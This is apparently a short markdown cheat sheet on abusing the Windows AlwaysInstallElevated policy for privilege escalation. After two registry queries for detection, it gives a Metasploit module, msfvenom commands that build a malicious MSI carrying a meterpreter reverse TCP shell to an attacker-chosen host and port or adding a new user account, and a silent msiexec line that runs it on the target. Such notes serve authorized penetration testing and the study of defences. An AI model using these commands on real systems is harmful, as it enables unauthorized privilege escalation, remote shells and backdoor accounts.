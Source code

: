 # AlwaysInstallElevated
AlwaysInstallElevated policy is allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges.

### Detection
Check if REG_DWORD value is 0x1 in 2 registry
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Metasploit
```
use exploit/windows/local/always_install_elevated
```

### Generate .msi file with Msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP_ADDRESS LPORT=LOCAL_PORT –f msi > evil.msi
```
```
msfvenom -p windows/adduser USER=username PASS=password -f msi > adduser.msi # Add user
```

### Execute .msi file on command line of target system
```
msiexec /quiet /qn /i evil.msi
```
